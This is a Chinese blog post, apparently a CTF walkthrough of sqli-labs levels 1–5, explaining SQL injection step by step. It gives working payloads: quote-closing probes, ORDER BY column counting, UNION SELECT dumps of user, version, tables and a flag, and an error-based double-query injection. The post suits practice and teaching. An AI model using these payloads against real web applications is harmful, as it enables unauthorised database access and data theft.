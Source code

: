 ```yaml
---
title: sql-labs(一)
date: 2020-09-22 10:50:08
categories: ['DROPS']
tags: ['sql注入']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201111120858.png
---
```


## 前言

在线靶机地址：https://buuoj.cn/challenges#sqli-labs

## less-1

​	首先说明sql注入的大致步骤：

* 判断注入类型。如整型字符型注入等。
* 判断列数
* 判断数据的回显位
* 构造sql语句



​	根据题目提示，说明是一个单引号注入题目，构造一个带单引号的语句`?id=1'`，发现数据库报错

![](https://s1.ax1x.com/2020/11/04/BgERNd.png)

​	通过后面的报错语句`1'' LIMIT 0,1`的分析，我们的单引号被数据库解析，那么说明我们也可以使用连接查询`union`插入我们想要查询的语句。

​	推出数据库的查询的部分语句可能为`where id = '$id'LIMIT 0,1`，那么通过构造闭合`?id=1' [这里添加语句] --+`添加自己想要语句，语句后面的`--+`作用是将后面的其他语句注释掉。

​	首先是判断字段个数：`?id=1' order by 1 --+`，页面显示正常，直到尝试`?id=1' order by 4 --+`发现数据库报错

![](https://s1.ax1x.com/2020/11/04/BgVsGn.png)

​	说明数据库的字段值只有四个。

​	接下来测试数据的回显位，构造语句`?id=' union select 1,2,3 --+`，这里需要注意的有，前面`id`的查询一定是要不存在的，因为数据库只会回显第一条查询的数据，如果第一条语句查询成功则后面`union`构造的语句就不会显示；`union`连接查询语句后面查询的字段数需要和前面的字段数相等，详细用法可以自行查询。

​	执行后页面显示。

![](https://s1.ax1x.com/2020/11/04/BgZAeS.png)

​	说明查询语句的`2,3`是回显位，之后就可以将查询的语句进行替换。如：

​	获取数据库版本，数据库路径，当前用户，当前数据库：
​	`?id=' union select 1,concat_ws('_',user(),version(),database()),@@basedir --+` 

页面显示

![](https://s1.ax1x.com/2020/11/04/BgZbfs.png)

​	利用元数据库来爆表、爆数据

​	`?id=' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`

​	之后大家可以自行发挥。

​	`flag`的话我做的题是在`ctftraining.flag`表中，答案在：`?id=' union select 1,flag,3 from ctftraining.flag  --+`

## less-2

​	第二题看题目名称`intiger based`知大意，是id的数据类型由字符型变成了数字类型，这次就不使用单引号直接构造语句，和第一题差不多。

## less-3

​	看标题`Single quotes with twist`，是在前面题的基础上加上了括号包裹，所以语句就成了`where id = ('id')`所以我们闭合的方式也要改变。附源码

![](https://s1.ax1x.com/2020/11/04/BgnO1A.png)

## less-4

​	标题`Double Quotes`，说明是个引号注入，把前面题的单引号改成双引号构成闭合即可。

## less-5

​	标题`Double Injection-Single Quotes`，很明显提示是单引号，然后套用前面的方法， 发现这次题目变了，不管输入啥页面只显示一个`You are in...........`，但是数据库报错还是会显示，只要数据库错误还能显示，我们就可以是用一个新的技术把数据显示在错误信息上。

​	双查询注入也是我第一次听，贴一个讲大致原理的帖子：[点我](https://blog.csdn.net/Leep0rt/article/details/78556440)。

​	构造语句：

`?id=' union select 1,2,3 from (select 1,count(*),concat_ws('____________',floor(rand()*2),concat_ws('********',version(),database()))a from information_schema.tables group by a)b --+`

​	讲一下`CONCAT_WS(separator,str1,str2,…)`函数的用法：把`str1`、`str2`连接起来，并使用`separator`做分隔符。

